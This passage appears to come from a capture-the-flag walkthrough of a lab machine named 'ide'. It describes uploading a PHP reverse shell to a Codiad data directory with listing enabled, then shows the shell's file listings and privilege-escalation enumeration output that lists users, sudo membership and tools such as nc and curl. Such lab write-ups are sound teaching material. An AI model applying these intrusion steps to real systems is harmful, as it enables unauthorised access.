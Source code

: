 Now, this process of starting a reverse shell is pretty complicated. So instead, I am gonna upload a reverse shell.

Uploaded my own PHP reverse shell using `nc`. Remember that dir listing is enabled. So we can access it directly at http://ide.thm:62337/data/rshell.php
```bash
www-data@ide:/var/www/html/codiad/data$ ls -l
total 36
-rw-r--r-- 1 www-data www-data   18 Jun 18  2021 README
-rw-r--r-- 1 www-data www-data  311 Nov  8 07:48 active.php
drwxr-xr-x 2 www-data www-data 4096 Nov  8 07:46 cache
-rw-r--r-- 1 www-data www-data   82 Jun 18  2021 projects.php
-rw-r--r-- 1 www-data www-data 5493 Nov  8 08:11 rshell.php
-rw-r--r-- 1 www-data www-data   52 Jun 18  2021 settings.php
-rw-r--r-- 1 www-data www-data  138 Nov  8 07:46 users.php
-rw-r--r-- 1 www-data www-data   79 Jun 18  2021 version.php

```

We cannot read `user.txt` in `/home/drac`. We will need to find a way to pivot to the `drac` user. 
```bash
www-data@ide:/home/drac$ ls -l
total 4
-r-------- 1 drac drac 33 Jun 18  2021 user.txt
```

# Privesc

## lse run

Running `lse` first. Note the very old Linux Kernel.

```bash

ser: www-data
     User ID: 33
    Password: none
        Home: /var/www
        Path: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
       umask: 0000

    Hostname: ide
       Linux: 4.15.0-147-generic
Distribution: Ubuntu 18.04.5 LTS
Architecture: x86_64

[*] usr020 Are there other users in administrative groups?................. yes!
---
adm:x:4:syslog
sudo:x:27:drac
---
[*] usr030 Other users with shell.......................................... yes!
---
root:x:0:0:root:/root:/bin/bash
drac:x:1000:1000:drac:/home/drac:/bin/bash

[*] sud050 Do we know if any other users used sudo?........................ yes!
---
drac

[*] fst100 Useful binaries................................................. yes!
---
/usr/bin/curl
/usr/bin/dig
/bin/nc.openbsd
```
